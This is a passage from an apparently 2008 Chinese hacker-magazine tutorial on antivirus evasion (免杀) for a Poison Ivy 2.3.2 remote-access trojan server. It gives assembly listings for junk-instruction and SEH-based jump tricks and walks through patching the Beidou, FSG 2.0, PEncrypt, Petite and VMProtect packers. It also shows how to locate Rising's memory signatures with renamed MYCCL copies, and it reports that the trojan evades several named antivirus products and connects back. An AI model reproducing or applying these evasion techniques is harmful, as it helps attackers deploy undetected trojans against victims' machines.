00408022   - 75 FE           jnz    short 00408022
00408024   - 75 FE           jnz    short 00408024
00408026   - 75 FE           jnz    short 00408026
00408028   - 75 FE           jnz    short 00408028
0040802A   - 75 FE           jnz    short 0040802A
0040802C   - 75 FE           jnz    short 0040802C
0040802E   - 75 FE           jnz    short 0040802E
00408030   - 75 FE           jnz    short 00408030
00408032   - 75 FE           jnz    short 00408032
00408034   - 0F85 9A90FFFF   jnz    004010D4
0040803A   - 0F84 9490FFFF   je     004010D4
```

我们看到，全部是跳转到本身地址的跳转指令！你看到这个也许觉得不能够运行，但是确实是可以运行的，并过掉了卡巴斯基。这就是花指令的魅力！

对于这个花指令，当 ZF 标志位等于 0 时 jnz 进行跳转，jpo 是 PF 标志位为 0 时进行跳转，jnz 和 jpo 可以这样组合起来按照任意顺序写下去，程序会默认执行的，但是不可以和 jz、jp 写在一起。jnz 和 jz 是相反条件的指令，jpo 和 jp 也是相反条件的指令。这样的指令也可以当 nop 来用，穿插在花指令中间。

> 本文算是说了两个原创的花指令，希望可以给初学者一点指引，去打造属于自己的免杀花指令。对于写花指令，首先要构造框架，之后再调整框架上指令的顺序，最后在不执行的地方填写进去垃圾指令就可以了。本文只讲述了花指令的构造过程，具体的实际操作欢迎大家观看本文附带的动画教程，也算是对本文在实际操作上的补充，这样才能对于加花有一个深入的了解。

### 三、SHE 与花指令在免杀中的综合应用

先简单介绍一下 SHE：SHE（Structured Exception Handling）即结构化异常处理，是 Windows 操作系统提供给程序设计者的、强有力的处理程序错误或异常的武器，也就是程序出错时候的一种处理机制。

对于免杀中的应用，只需知道以下两点就可以了：

- SHE 异常在壳里面很常见，出现了异常以后，一般交给系统处理，处理过程十分复杂，往往调试器在此时无法继续跟踪，从而可以达到防调试的目的。
- 我们所用到的 SHE 异常只相当于一个跳转指令。下面以一个简单的 SHE 指令为例说明一下：

```asm
push X1                      // 将地址 X1 压入堆栈
push dword ptr fs:[0]        // fs:[0] 压入堆栈，执行完成后，fs:[0] 指向栈顶
mov dword ptr fs:[0], esp    // 构造 1 个 error 结构
mov esi, 0                   // 简单的赋值语句
mov eax, dword ptr ds:[esi]  // 产生异常
```

产生异常后相当于跳转到第一行后的地址 X1。这段指令完全可以代替花指令中的跳转代码，和花指令组合还可以加强花指令的强度。

下面通过两个实例演示一下。我们先配置一个 PI 2.3.2 的服务端，如图 8 所示。


接下来的设置都很简单，不断单击下一步就可以了。之后在生成的选项中选择生成“Delphi 数组”，如图 9 所示，这样生成的服务端更方便我们修改。


之后保存为 xxx.inc，再用一个专用的工具编译下就可以了，如图 10 所示，你也可以用 Delphi 来编译。


生成后保存为 xx.exe，之后用 topo1.2 加个新区段，方便我们写入花指令。接着来到空白区段写入花指令，再跳转到原来入口点，再更改新的入口在花指令的位置就可以了，这里就不演示了，直接给出指令。

下面是一个花指令，用江民 2008 和金山 2008 测试，已经被杀；以前这个指令是免杀的。

```asm
00408000 > 60
pushad
00408001 9C
pushfd
00408002 E8 0F000000
call 00408001（这个地址一定要在 00408009 之前）
00408007 90
nop
00408008 90
00408009 68 13114000   push 00401113
0040800A C3            retn
0040800B 90
nop
```

我们看这两句指令：

```asm
00408009 68 13114000   push 00401113
0040800A C3            retn
```

这两句相当于一个跳转 jmp 00401113，其中 00401113 是原来的入口地址。接下来用一段 SHE 异常指令来代替这个跳转，代码如下：

```asm
00408000 > 60                   pushad
00408001   9C                   pushfd
00408002   E8 00000000          call 00408007
00408007   90
nop
00408008   90
nop
00408009   68 13114000          push 00401113    从本句开始整个代替了 JMP 跳转
0040800E   64:FF35 00000000     push dword ptr fs:[0]
00408015   64:8925 00000000     mov  dword ptr fs:[0], esp
0040801C   BE 00000000          mov  esi, 0
00408021   8B06                 mov  eax, dword ptr [esi]
```

保存后，用金山 2008 和江民 2008 扫描，免杀成功，程序可以正常运行，服务端正常上线。一般情况下，金山和江民对花指令查杀的力度是比较强的，通过本例可以看到，花指令和 SHE 指令配合使用完全可以加强花指令的强度。

再来一个复合 SHE 花指令（其中 00401113 是入口地址）：

```asm
00408005   6A 00                push 0
00408007   6A 00                push 0
00408009   50                   push eax
0040800A   50                   push eax
0040800B   58                   pop  eax
0040800C   58                   pop  eax
0040800D   68 43804000          push 00408043    第一个 SHE 指令开始，异常后跳到第三个
00408012   64:A1 00000000       mov  eax, dword ptr fs:[0]
00408018   50                   push eax
00408019   64:8925 00000000     mov  dword ptr fs:[0], esp
00408020   BE 00000000          mov  esi, 0
00408025   8B06                 mov  eax, dword ptr [esi]
00408027   90
nop
00408028   68 13114000          push 00401113    第二个 SHE 指令开始，跳到入口
0040802D   64:A1 00000000       mov  eax, dword ptr fs:[0]
00408033   50                   push eax
00408034   64:8925 00000000     mov  dword ptr fs:[0], esp
0040803B   BB 00000000          mov  ebx, 0
00408040   F7F3                 div  ebx
00408042   90
nop
00408043   68 28008004          push 00408028    第三个 SHE 指令异常后跳到第二个
00408048   64:A1 00000000       mov  eax, dword ptr fs:[0]
0040804E   50                   push eax
0040804F   64:8925 00000000     mov  dword ptr fs:[0], esp
00408056   90
nop
00408057   CD 68                int 68
```


以上就是使用多个 SHE 的情形，由第一个跳到第三个，第三个跳到第二个，第二个跳到原来入口。这就是复合使用 SHE 的情形，你还可以尽情地发挥。

最后提供给大家其他三个常用的 SHE 指令：

- 第一个：
  push 跳转地址  
  mov eax, dword ptr fs:[0]  
  push eax  
  mov dword ptr fs:[0], esp  
  nop  
  int 68

- 第二个：
  push 跳转地址  
  mov eax, dword ptr fs:[0]  
  push eax  
  mov dword ptr fs:[0], esp  
  nop  
  vxdcall 134543

- 第三个：
  push 跳转地址  
  mov eax, dword ptr fs:[0]  
  push eax  
  mov dword ptr fs:[0], esp

SHE 指令与花指令结合之后往往免杀效果更好一些！

### 四、改壳初探——修改北斗压缩壳免杀

北斗压缩壳是一款不错的国产压缩壳，压缩比也很高，刚出 3.7 版的时候，加上这个壳就可以直接全免杀。但是由于大家频繁使用，不久就被各大杀软盯上了，甚至不进行脱壳就可以直接杀掉这个壳压缩的所有文件。本节就来介绍如何修改这个壳来免杀卡巴 7.0、金山 2008、江民 2008 和瑞星 2008 的表面和内存查杀。

先来配置一个 Poison Ivy 2.3.2 的服务端，方法在前面已经介绍过，这里就不多说了，依然是生成 Delphi 数组的，然后编译出服务端，这样做出来的服务端可造性比较高。

接着用北斗程序压缩 3.7 版来加壳，如图 11 所示，然后用 OD 载入。载入后把滚动条拉到最上面稍向下一点点，就会看到有一块空白区域，这里就是我们要用到的地方，如图 12 所示。

接着重新载入程序，记录入口点地址为 00409160，然后将入口处的两行指令 NOP 填充掉，如图 13 所示。

之后保存一下文件，再用 OD 载入保存后的文件来到最初找到的空白区域。选择一个新

## 与杀软的周旋——免杀大应用

| 地址 | 机器码 | 指令 |
|---|---|---|
| 00409910 | 60 | pushad |
| 00409911 | 91 | xchg eax, ecx |
| 00409912 | 0000 | add byte ptr [eax], al |
| 00409914 | 0000 | add byte ptr [eax], al |
| 00409916 | 0000 | add byte ptr [eax], al |
| 00409918 | 0000 | add byte ptr [eax], al |
| 0040991A | 0000 | add byte ptr [eax], al |
| 0040991C | 0000 | add byte ptr [eax], al |
| 0040991E | 0000 | add byte ptr [eax], al |
| 00409920 | 0000 | add byte ptr [eax], al |
| 00409922 | 0000 | add byte ptr [eax], al |
| 00409924 | 0000 | add byte ptr [eax], al |
| 00409926 | 0000 | add byte ptr [eax], al |

| 地址 | 机器码 | 指令 |
|---|---|---|
| 00409160 | 90 | nop |
| 00409161 | 90 | nop |
| 00409162 | E8 00000000 | call 00409167 |
| 00409167 | 5D | pop ebp |
| 00409168 | 83ED 07 | sub ebp, 7 |
| 0040916B | 8D8D 1CFFFFFF | lea ecx, dword ptr [ebp-E4] |
| 00409171 | 8039 01 | cmp byte ptr [ecx], 1 |

的入口点，我选择的是 0040901C（一定要用这个地址，其以上的地址全被杀），然后向下开始汇编两句指令，也就是我们 NOP 掉的那两句。之后随意编辑两句花指令，最后用 PUSH 跳回入口，PUSH 代替 JMP，后面的一条指令是 retn，这个一定不要忘记。修改后的效果如图14所示。

| 地址 | 机器码 | 指令 |
|---|---|---|
| 0040901C | 9C | pushfd |
| 0040901D | 60 | pushad |
| 0040901E | 50 | push eax |
| 0040901F | 58 | pop eax |
| 00409020 | 05 B100F0FF | add eax, FFFF00B1 |
| 00409025 | 05 FFFF0F00 | add eax, 000FFFFF |
| 0040902A | 68 60914000 | push 00409160 |
| 0040902F | C3 | retn |
| 00409030 | 90 | nop |
| 00409031 | 90 | nop |

接着保存文件，再用 OD 载入已经保存好的文件，现在还需要修改一条指令，如图15和图16中的对比。

其实也就是把 `sub ebp,7` 改成 `add ebp,-7`，这个是等效指令，加上一个数的相反数，等于减去这个数，这句是为了过金山2008。

## 非安全·黑客手册2008 第一增刊

| 地址 | 机器码 | 指令 |
|---|---|---|
| 00409160 | 90 | nop |
| 00409161 | 90 | nop |
| 00409162 | E8 00000000 | call 00409167 |
| 00409167 | 5D | pop ebp |
| 00409168 | 83ED 07 | sub ebp, 7 |
| 0040916B | 8D8D 1CFFFFFF | lea ecx, dword ptr [ebp-E4] |
| 00409171 | 8039 01 | cmp byte ptr [ecx], 1 |
| 00409174 | 0F84 42020000 | je 004093BC |

### 图15 修改前的

| 地址 | 机器码 | 指令 |
|---|---|---|
| 00409160 | 90 | nop |
| 00409161 | 90 | nop |
| 00409162 | E8 00000000 | call 00409167 |
| 00409167 | 5D | pop ebp |
| 00409168 | 83C5 F9 | add ebp, -7 |
| 0040916B | 8D8D 1CFFFFFF | lea ecx, dword ptr [ebp-E4] |
| 00409171 | 8039 01 | cmp byte ptr [ecx], 1 |
| 00409174 | 0F84 42020000 | je 004093BC |

### 图16 修改后的

再次进行保存，最后更改程序入口地址到新的地址。可以用 LoadPE，也可以用 Peditor，推荐用前者，因为后者某些版本修改过的文件会被卡巴直接报毒，原因是所有 Peditor 编辑过的文件里面都加入了 Peditor 的特征。我们可以做个去除残留信息的补丁，或者直接用 C32ASM 打开文件进行16进制编辑，去掉 Peditor 写入的信息，如图17所示，这样卡巴就不杀了。

```text
00000260: 00 00 00 00 00 00 00 00 00 00 00 60 00 E0
00000270: 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A
00000280: 20 D3 C9 20 79 6F 64 61 20 26 20 4E 2E 6F 44
00000290: 2E 20 D6 C6 D7 F7 20 B2 DC B4 CF BA BB AF B5
000002A0: C4 20 50 45 64 69 74 6F 72 31 2E 31 2E 37 20
000002B0: B8 C4 20 2D 3E 20 63 6F 6D 65 2E 74 6F 2F 66
000002C0: 66 20 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A 2A
000002D0: DC 00 00 00 00 00 00 00 00 00 00 00 00 00 00
由 yoda & N.o.D 制作 曹聪汉化
?PEditor 1.7 修b
改 -> come.to/ff
```

### 图17

最后用 xPELister 修改下区段名称，如图18所示，将区段名称全部更改掉，如图19所示。

### 图18

### 图19

最后保存文件，测试一下，完全过掉江民、金山、瑞星和卡巴 7.0 的内存和表面查杀。

> 改壳是一种较好的免杀方式，而且对于同一种壳来说改法多种多样，这就要靠自己多尝试、多实践了。免杀有些东西看似简单，但是其得到结果的过程未必简单，经验是大量实践得出的结果。打造属于自己的改壳方式，对于江民、金山、瑞星、卡巴这类的杀毒软件，改壳都可以过掉。

## 与杀软的周旋——免杀大应用

### 五、改壳实战之 FSG2.0 加壳程序中跳转指令变异免杀卡巴

FSG 也是一款很出名的壳，压缩率也很高，但遗憾的是只能给 EXE 程序加壳。本节将给出一个修改这个壳的实例，达到过卡巴扫描的目的。

首先配置一个 Poison Ivy 2.3.2 的服务端，采用 Delphi 数组方式生成（不采取这种方式而直接生成的文件，加壳后运行会出错），然后对配置好的服务端用 FSG 2.0 加壳压缩。

加壳压缩后的文件大小只有 5KB 多一点，可以说这款木马服务端很小，但是很强大。我在虚拟机里运行测试，成功上线，如图20所示。

接下来讲一讲摸索标志位跳转的规律，并在本次实例中做一次运用。本节内容里对 FSG 2.0 这款壳要改的东西并不多，只用了 4 个跳转就免杀了卡巴 7.0，但是这个原理可以利用到改其他壳的实践中去，所以知道原理是很有必要的，这个也是本文的重点。我们所研究的改壳都不是大改，小改一下就可以了，只要达到免杀的目的，并且程序能正常而稳定地运行就算完成了任务，这也算作是入门级的改壳实战。

> 壳的辨认一般都是通过加了壳的程序入口处前几行的机器码来进行的，像卡巴这种杀毒软件辨认壳也基本是这样。所谓的虚拟机脱壳也不是万能的，一般是先判断出是什么壳，然后再放到虚拟机中运行，脱了壳以后辨认特征码进行查杀。如果壳无法辨认出来，基本就杀不了，有时候还真对卡巴的虚拟技术表示怀疑。

> 最常见的壳，像 UPX、ASPACK 等，稍作修改就免杀了，所以一般情况下其他壳也不用做太大的修改，只要改掉加壳目标程序前十行中的某些指令就基本能达到免杀目的了。

先说说怎么改 FSG 2.0 来过卡巴 7.0 的查杀。首先用 OD 载入加了壳的目标程序，会看到程序入口处的指令，如图21所示。

```asm
004400151    8755 9CA34000    xchg     dword ptr [40A39C], esp
00440015A    61               popad
00440015B    94               xchg     eax, esp
00440015C    55               push     ebp
00440015D    A4               movs     byte ptr es:[edi], byte ptr [esi]
00440015E    B6 80            mov      dh, 80
004400160    FF13             call     dword ptr [ebx]
004400162    73 F9            jnb      short 00440015D
004400164    33C9             xor      ecx, ecx
```

之后把我们看到的几个 jnb 跳转进行修改，全部改成 ja 跳转，修改后的结果如图22所示。修改后的程序用卡巴7.0进行查杀，已经免杀。

修改的过程十分简单，但是“为什么可以这么修改？”是本节以下要说的重点内容。

先来说一说 jnb 跳转和 ja 跳转。jnb 为高于等于/不低于的转移指令，也就是当 a>=b 时跳转；而 ja 为高于/不低于等于的转移指令，也就是当 a>b 时进行跳转。

可以说这两个指令是汇编里值最接近的，但是并不代表这两个指令可以替换。而判断是否跳转，可以在 OD 中通过查看标志位来知道，标志位的值在 OD 中的右侧窗口显示，如图23所示。

其中 C、P、A、Z 等分别代表 CF、PF、AF、ZF 标志位，后面的数字 0 和 1 是它的值，值只取 0 和 1。对于 jnb 跳转来说，CF 等于 0 的时候才跳转，而对于 ja 来说，满足 CF 等于 0 之后还要必须满足 ZF 也等于 0 时才跳转。

我们来分析一下，什么情况下 ja 和 jnb 是等效的。这里列出以下两种情况，也就是跳转时和不跳转时情况。

- 跳转时：CF=0，ZF=0。
- 不跳转时：CF=1，ZF 任意。

在这两种情况下，ja 和 jnb 是等效的。这里面有点逻辑关系，可以反面论证。对于前一种情况，如果 CF=0，ZF=1 的时候，只有 jnb 可以跳转，而 ja 跳转不了，此时不等效。对于后一种情况，如果 CF=1，ZF 无论是 0 还是 1，两种都不跳转，此时满足等效。

具体操作过程要在 OD 中完成，一边单步步入，一边观察 CF 和 ZF 的值就可以了，如图24所示。

## 与杀软的周旋——免杀大应用

### 图24

单击单步步入按钮或者按 F8 单步步入，每当光标到达 jnb 跳转的时候观察右侧标志位的值。一般壳头有许多循环，不要绕过这些循环，在壳头多循环几次。如果每次都满足了前面我们说的可以替换的两个条件之一，就可以用 ja 替换了。

我在做修改的时候，大概跟踪了循环十几次，发现标志位的值始终满足前面两种情况，所以这里就可以用 ja 替换了，具体过程可以参看本文附带的动画教程。

> 跳转在程序中占有很关键的地位，一般卡巴启发式杀毒杀加壳的木马很多时候都在跳转处，无论这个跳转怎么移动都还是被杀。如果跟踪了几次，发现可以用另一种跳转替换的话，往往就可以逃过追杀。改壳这种免杀方式并不一定是大段大段地做修改，有时候甚至只修改一个指令就免杀了。

> 这里给大家介绍一个小技巧：给木马加完壳后，可以用 nop 填充掉前十几行，保存一下。如果没有被杀的话，你只要在这前十几行里做一些修改就可以免杀。总之，免杀这个东西还是要多总结、多实践的。

### 六、改壳实战——修改 PEncrypt v4.0 免杀五大杀软

PEncrypt v4.0 是我在国外论坛里找到的一个加密工具，没有什么强度，加上去的基本上都是垃圾指令。这种加密工具一旦被杀就成废品了，而改壳是一个废物利用的过程，更好的方面是你会完全改造出一个属于自己的加密工具，而且修改这种不常见的加密工具的人几乎没有。对于一个改成免杀的罕见加密工具来说，免杀时间是非常长久的。这种效果要比你苦苦定位特征码、重建输入表、移动函数位置等方面方便得多。

下面就来修改这个加密工具，看看意想不到的效果吧。PEncrypt v4.0 运行后，界面如图25所示。

### 图25 界面看起来是个很简单的迷你加密工具

先来配置一个 Poison Ivy 2.3.2 的服务端，依然是生成 Delphi 数组的，之后编译出来 EXE 格式的服务端。用 PEncrypt v4.0 对服务端进行加密，先要说明一下，这款加密工具是随机生成的加密，每次加密后 OD 载入所看到的指令是不同的。或者说，这里我所修改的指令，在你加密的过程中可能不会遇到，本节所说的只是方法而已。虽然每次加密的指令不同，但是按照此方法依然可以免杀 5 大杀软，甚至有些随机加密可以直接生成免杀。

现在我们已经用 OD 载入了加密后的服务端，刚刚载入时可能鼠标光标不能编辑指令，我们可以把一大段先 nop 填充掉，之后撤销更改就可以了。接着向下拉动滚动条，会看到如下一段指令，如图26所示。

| 地址 | 机器码 | 指令 |
|---|---|---|
| 0040115E | A6 | cmps byte ptr [esi], byte ptr es:[edi] |
| 0040115F | 15 BB07A615 | adc eax, 15A607BB |
| 00401164 | BB 07A615BB | mov ebx, BB15A607 |
| 00401169 | 07 | pop es |
| 0040116A | A6 | cmps byte ptr [esi], byte ptr es:[edi] |
| 0040116B | 15 BB07A615 | adc eax, 15A607BB |
| 00401170 | BB 07A615BB | mov ebx, BB15A607 |
| 00401175 | 07 | pop es |
| 00401176 | A6 | cmps byte ptr [esi], byte ptr es:[edi] |
| 00401177 | 15 BB07A615 | adc eax, 15A607BB |
| 0040117C | BB 07A615BB | mov ebx, BB15A607 |
| 00401181 | 07 | pop es |
| 00401182 | A6 | cmps byte ptr [esi], byte ptr es:[edi] |
| 00401183 | 15 BB07A615 | adc eax, 15A607BB |

其实这是一段垃圾指令，nop 填充掉后程序照样可以运行，所以这一小段指令就是可以利用的地方。选择 0040115E 作为程序的新入口，在此处开始汇编如下的指令：

```asm
0040115E > 55              push ebp            作为新的入口地址
0040115F   8BEC            mov  ebp, esp
00401161   35 0100F0FF     xor  eax, FFF00001
00401166   35 0100F0FF     xor  eax, FFF00001
0040116B   90              nop
0040116C   90              nop
0040116D   68 84114000     push 00401184
00401172   C3              retn                用作跳转到 00401184
……中间省略一些代码……
00401184 > 90              nop                 接着上面的跳转在这里继续添加指令
00401185   83F0 01         xor  eax, 1
00401188   83F0 01         xor  eax, 1
0040118B   90              nop
0040118C   90              nop
0040118D   90              nop
0040118E   6A 00           push 0
00401190   90              nop
00401191   90              nop
00401192   68 00104000     push 00401000
00401197   C3              retn                用作跳转到 00401000（原来的入口）
```

这段指令也是很简单的，主要用了四个异或指令。对于 `xor eax, FFF00001`，其实是 `xor eax, -0FFFFF`，连续两句这样的指令就相当于什么也没做。对于一个数用另一个数异或两次之后还是原来的数，大家可以用计算器进行验证。

跳转用的是 push，这个指令比 JMP 要好一些，但是 push 之后一定要加 retn 才会跳转到 push 的地址。添加完所有指令之后，效果如图27所示。

最后保存文件，用 LoadPE 更改入口到 0040115E。现在已经免杀卡巴、金山、江民、瑞星了，还差一个小红伞！其实对于刚刚改好的程序，用 PEncrypt v4.0 再加密一次，就把小

## 与杀软的周旋——免杀大应用

红伞过了。

```asm
0040115D 07
0040115E 55
0040115F 8BEC
...（省略部分代码行，以保持结构）
00401197 90 nop
```

改壳其实很多时候就是在壳上加花，但是这种加花并不像平时加花指令那样随意，这个要因地制宜，要考虑壳中指令所给的能利用的范围大小，以及在这些区域上写上指令，程序是否能够运行。还有一些改法是直接改壳的指令，也有意想不到的效果，我们将在后面的内容中讲到。

## 七、改壳实战之：修改 Petite 2.3 免杀启发式查杀的小红伞和 NOD32

像小红伞和 NOD32 这种启发式杀毒比较厉害的杀软，杀壳也是比较狠的。例如用北斗压缩壳 3.7 版加壳后的服务端，小红伞的对付方式是直接杀掉这个壳，正常的软件加了这个壳也照样杀！而且杀的是壳的区段头，无论怎么移位，或者更改 PE 头大小，都无法躲过。它查杀的方式比较特别，不是靠文件偏移来取特征码，而是通过相对计算来取区段头中的某个位置作为特征，所以怎么移位都没有用。像遇到这种情况是很难做修改的，一般可以二次加密，把区段头擦掉，之后再做修改，这样才有可能过掉小红伞。

本节介绍的 Petite 2.3 是一款压缩壳，但是也有点加密壳的特性，下面就说说如何修改 Petite 2.3 来过掉杀壳比较强悍的两款杀毒软件。

仍然是先配置一个 Poison Ivy 2.3.2 服务端，这个马个人比较喜欢，所以一直就用这个来做演示。把它用 Petite 2.3 加壳，此款壳有汉化版，我手里的是一个英文版，使用默认配置进行加壳就可以了，如图 28 所示。

之后用 OD 载入加壳的服务端，看到壳入口处的代码、寄存器的值，以及标志位的值，如图 29、图 30 所示。

壳的入口处是一句 `mov eax, 408000`，我们看到图 30 中 EAX 后面是 8 个 0，也就是刚刚载入的时候，eax 这个寄存器的值为 0，而 `mov eax, 408000` 是赋值给 eax，从 0 变为 408000，所以这句可以改成 `add eax, 408000`。指令的关联是很多的，这句表面上可以这么改，但是确实可以成功运行，道理上是讲得通的。

提示：有时候，我们改壳时，一个指令换成另一个指令，无论从哪方面想都是行得通，但是改了之后就是运行不起来，这也很正常，总有你想不到的。举个例子，像 `add eax,0C` 这样的可以替换成 `sub eax,-0C`，但是改了之后就是运行不起来，因为加法指令和减法指令对标志位的影响是不同的，所以任何改法都依照情况而定。只有程序可以稳定地运行起来，才是检验是否更改成功的唯一标准，甚至有时候我们完全不按照逻辑改，程序照样能够运行起来。

现在按 F8 单步向下走，看到以下两句：

- `00408129 66:9C pushfw`
- `0040812B 60 pushad`

将这两句调换下顺序，改成：

- `00408129 60 pushad`
- `0040812B 66:9C pushfw`

之后继续按 F8，一直到一个跳转的位置，如图 31 所示。

我们可以看到有许多加法指令 `add`，在使用 F8 向下走的时候注意观察右面的标志位 CF 的值，一直为 0！这时我从实践中摸索出一条规律：在做加法运算的时候是会影响 CF 标志位的，一般情况下，F8 向下走，走过这些 `add` 的时候如果 CF 一直为 0，这些 `add` 就可以换成 `adc`。`adc` 是进位的加法，`add` 不进位。

| 地址 | 机器码 | 指令 |
|---|---|---|
| 00408104 | 50 | push eax |
| 00408105 | 800424 0C | add byte ptr [esp], 0C |
| 00408109 | 50 | push eax |
| 0040810A | 800424 46 | add byte ptr [esp], 46 |
| 004081AE | 50 | push eax |
| 004081AF | 800424 65 | add byte ptr [esp], 65 |
| 004081B3 | 50 | push eax |
| 004081B4 | 800424 A1 | add byte ptr [esp], A1 |

图 31

如果在产生溢出的情况下，除了两个对象相加外还要加上 CF 的值，而 CF 的值一直为 0，所以替换成 `adc` 是行得通的。我们将程序中的相关 `add` 指令都改成 `adc`，改完这些后，在 OD 中选择保存。

之后再用 OD 载入刚刚修改完的文件，转移一处指令之后添加一些垃圾指令，让 NOD32 和小红伞彻底认不出这个壳。我们找到如下三句，可以用 JMP 跳转将它们转移到空白处。

```asm
0040812C   50       push    eax
0040812D   8BD8     mov     ebx, eax
0040812F   0300     add     eax, dword ptr [eax]
```

```asm
004097CB 50        push eax      ; 这个地址是 JMP 跳向的地址
004097CC 8BD8      mov ebx, eax
004097CE 1300      adc eax, dword ptr [eax]
004097D0 83C0 1C   add eax, 1C
004097D3 83C0 E4   add eax, -1C
004097D6 83F0 1C   xor eax, 1C
004097DC 83E8 1C   sub eax, 1C
004097E5 83E8 E4   sub eax, -1C  ; 减去一正一负，也相当于什么也没做
004097E8 E9 44E9FFFF jmp 00408131
004097ED 90        nop
```

修改完毕后保存，用 NOD32 和小红伞将启发式全开到最高，扫描一下，完全过掉，运行后成功上线。如果大家还有不明白的，可以观看附带的动画教程。

本文介绍的改壳依然是很入门的东西，想要改壳必须要对反汇编有所掌握并且熟悉一些调试工具的使用方法。从本节可以看出，通过改壳达到免杀的目的并不困难，在实践中摸索肯定会寻找到规律，即使所谓杀壳能力很强的杀软也会无法奈何你。

### 八、用 MYCCL 辅助工具突破定位瑞星内存的独门方式

瑞星已经针对 MYCCL 定位内存的辅助工具下了毒手，在其载入目标程序到内存的时候，如果被查出是木马载入内存，会毫不留情地把辅助工具的进程也结束掉，这样就导致了用 MYCCL 无法定位其内存特征码。但是这也难不倒我们定位其内存特征码，以前我在“黑手”发布文章介绍过相关方法，这次再简单介绍一次，方便新手入门。

既然瑞星杀毒的时候把内存辅助定位工具也结束进程，那开多个进程就可以了。每个进程只载入一个文件，杀掉了哪个进程就把相应杀掉的进程载入的文件记录下来，回过头再手工删除 MYCCL 生成的对应文件，接着再“二次处理”就可以继续定位下去了。

所谓的开多个进程，不能用一个文件开多个进程，这样某一个被关掉进程之后其他的也会被关掉。瑞星是按照进程名来结束的，所以可以多复制出几个内存辅助定位工具并改名。由于文件进程的名字不同，瑞星就不会一次全部结束掉了，具体的方式来详细介绍一下。

首先把 MYCCL 内存定位辅助工具复制出 10 个，如图 34 所示，命名要和你生成的文件相对应，如图 35 所示，并且文件的标题也改成一一对应的关系，如图 36 所示。

之后利用标题和文件的一一对应关系分别载入文件到内存，如图 37 所示。把 MYCCL 生成的十个文件都这样载入后，用瑞星扫描，得到的结果如图 38 所示。

我们看到 0007、0008、0009 这三个文件被杀掉了，同时内存定位辅助工具和其对应的三个文件的进程也被结束了。这时关闭所有的内存定位辅助工具，手工删除被查杀出来的三个文件，如图 39 所示。

之后在 MYCCL 里进行“二次处理”，继续重复以上步骤，直到最后定位出特征码为止。本文附带动画教程，文章中有不明白的地方可以参看教程。

这种方法看起来比较麻烦，其实定位出一个 120KB 左右的文件也是很快的，教程中定位的就是 120KB 的文件。以往关于瑞星的内存定位，还有 OD 拆半定位法，现在对瑞星已经失效了，原因是：即使你通篇 nop 填充替换，瑞星照样杀！本方法就算是对 MYCCL 内存定位的一种改进方式，如果你有更好的方式也欢迎大家交流。

### 九、让 VMProtect 复活！免杀过瑞星、金山、江民

VMProtect V1.03 是比较老的一个版本，由于这个加密工具被频繁使用来加密木马，而今早已成为各大杀软封杀的对象，就算是正常的软件用这个工具加密之后也会被杀软杀掉。不过我还是很看好这个加密工具，即使被杀掉了，杀的也是加密壳的特征，而被加密的部分还是没有杀出来，改一改其中的代码和指令，也会给免杀带来意想不到的效果，何必整天去苦苦定位特征码呢？

依然用 Poison Ivy 2.3.2 配置出 Delphi 数组文件，之后用工具编译出可执行的服务端。接着用 VMP 加密程序的入口处，如图 40 所示。

加密了之后用 OD 载入，如图 41 所示，上来之后就是一个跳转，可以 F8 单步步入走着看看。F8 一次，跳到了如图 42 所示的位置。

之后看到下面又是四个跳转，这四个跳转跳向同一个位置，继续跟下去，看看这个跳转跳向哪里，如图 43 所示。

| 地址 | 机器码 | 指令 | 目标/操作数 |
|---|---|---|---|
| 004010D4 | E9 8C7D0000 | jmp | 00489E65 |
| 004010D9 | 1C 34 | sbb | al, 34 |
| 004010DB | BF 2F91D192 | mov | edi, 92D1912F |
| 004010DE | 45 | inc | ebp |
| 004010E0 | E6 3B | out | 3B, al |
| 004010E1 | 96 | xchg | eax, esi |
| 004010E3 | 50 | push | eax |
| 004010E5 | 04 F3 | add | al, 0F3 |
| 004010E7 | 18881F243EA5 | sbb | eax, dword ptr [ecx+58EA3F2] |
| 004010ED | 47 | inc | edi |
| 004010EE | 0BBFDF01A52 | or | edi, dword ptr [edi+28A501DF] |
| ... | ... | ... | （剩余行因长度简化处理） |

图 41

| 地址 | 机器码 | 指令 | 目标/操作数 |
|---|---|---|---|
| 00408E6A | E9 91F1FFFF | jmp | 00408B00 |
| 00408E6F | 68 61D8762C | push | 2C76D861 |
| 00408E74 | E9 87F1FFFF | jmp | 00408B00 |
| 00408E79 | 68 84033ECA | push | CA3E0384 |
| 00408E7E | E9 7DF1FFFF | jmp | 00408B00 |
| 00408E83 | 68 AB3F8667 | push | 67863FAB |
| 00408E88 | E9 73F1FFFF | jmp | 00408B00 |
| 00408E8D | 0000 | add | byte ptr [eax], al |
| 00408E8F | 0000 | add | byte ptr [eax], al |
| 00408E91 | 0000 | add | byte ptr [eax], al |
| ... | ... | ... | （剩余行简化） |

图 42

| 地址 | 机器码 | 指令 | 目标/操作数 |
|---|---|---|---|
| 00408F01 | 9C | pushfd |  |
| 00408F02 | 60 | pushad |  |
| 00408F03 | 68 00000000 | push | 0 |
| 00408F07 | 8BB724 28 | mov | esi, dword ptr [esp+28] |
| 00408F0B | BF 1C8B4000 | mov | edi, 00408B1C |
| 00408F10 | FC | cld |  |
| 00408F11 | 89F3 | mov | ebx, esi |
| 00408F13 | 2B1C24 | sub | ebx, dword ptr [esp] |
| 00408F16 | AC | lodsb | byte ptr [esi] |
| 00408F17 | 00D8 | add | al, bl |
| 00408F19 | 00C3 | add | bl, al |
| 00408F1B | 0FB6C0 | movzx | eax, al |
| 00408F1E | FF2485 18874000 | jmp | dword ptr [eax*4+48718] |
| 00408F25 | AC | lodsb | byte ptr [esi] |
| 00408F26 | 00D8 | add | al, bl |
| 00408F28 | 00C3 | add | bl, al |
| 00408F2A | FF3487 | push | dword ptr [edi+eax*4] |
| 00408F2D | EB E7 | jmp | short 00408F16 |
| 00408F2F | AD | lodsd | dword ptr [esi] |
| 00408F30 | 01D8 | add | eax, ebx |
| ... | ... | ... | （剩余行简化） |

图 43

可以查看一下区段的信息，这里是 VMP 解密的区段，区段名称 VMP0，如图 44 所示。

| 地址 | 大小 | 模块 | 区段 | 说明 | 类型 | 权限 |
|---|---|---|---|---|---|---|
| 00402000 | 00002000 | test_vmp | DATA | 数据 | Imag | R |
| 00404000 | 00001000 | test_vmp | BSS | 数据 | Imag | R |
| 00405000 | 00001000 | test_vmp | .idata | 输入表 | Imag | R |
| 00406000 | 00001000 | test_vmp | .reloc | 重定位 | Imag | R |
